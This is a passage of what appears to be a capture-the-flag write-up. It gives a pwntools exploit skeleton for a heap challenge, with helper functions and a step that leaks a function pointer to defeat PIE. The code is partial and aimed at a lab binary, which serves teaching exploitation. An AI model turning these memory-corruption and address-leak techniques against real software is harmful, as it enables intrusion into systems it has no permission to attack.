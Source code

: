 ```Python
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
# RUNPATH:  b'./glibc/'


# Helper functions

def free():
    io.recvuntil(b'[*] What do you want to do?')
    io.sendline(b'4')

def malloc(size, data):
    io.sendafter(b'[*] What do you want to do?', b'3\n')
    io.sendafter(b'[*] Are you sure that you want to make an offer(y/n): ', b'y\n')
    
    io.sendafter(b'[*] How long do you want your offer to be?', f"{size}".encode())
    io.sendafter(b'[*] What can you offer me? ', data)


io = start()



io.interactive()
```


### Leak address

We free the initial buffer, and we malloc enough data to bridge the pointer we aim to leak. By leaving no space before the variable, it will be printed when we call `printStorage()`.

```Python
io = start()

free()

# We don't overwrite the function pointer so that we can leak it.
payload = 0x48 * b'Y'
malloc(0x58, payload)

# Leak pointer
io.sendlineafter(b'[*] What do you want to do? ', b'1')

leak = u64(io.readline()[:6] + b'\x00\x00')
log.info(f"printStorage leak: {hex(leak)}")

io.interactive()
```

